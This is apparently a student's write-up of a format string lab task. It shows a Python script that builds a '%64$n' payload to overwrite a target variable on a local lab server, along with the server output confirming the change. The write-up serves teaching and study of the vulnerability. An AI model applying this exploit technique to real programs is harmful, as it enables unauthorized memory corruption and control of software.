 To write something to the address of the _target_ variable, it is necessary to find its position on the stack, which was accomplished in the **Task 2**, and we verify that by placing an address at the beginning of the format string we can access its address at the stack in the position 64.

Finally, we just need to specify in the format string the position where `%n` will write to. To do that, we can use the `%_$n` at the beginning of the format specifier, where `_` indicates the position of the parameter to format in the parameters list. Since there is no parameters list, we will indicate the position that the _target_ variable occupies in the stack, by sending `%64$n` as the format string.

All we needed to do was change the python script to place the address of the _target_ variable at the beginning of the format string, plus the format specifier `%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

And by executing the python script, we obtain the following result, where we can observe that the value of the target variable changes to `0x00000004`, matching the number of bytes that the _target_ address occupies:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | hThe target variable's value (after):  0x00000004
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
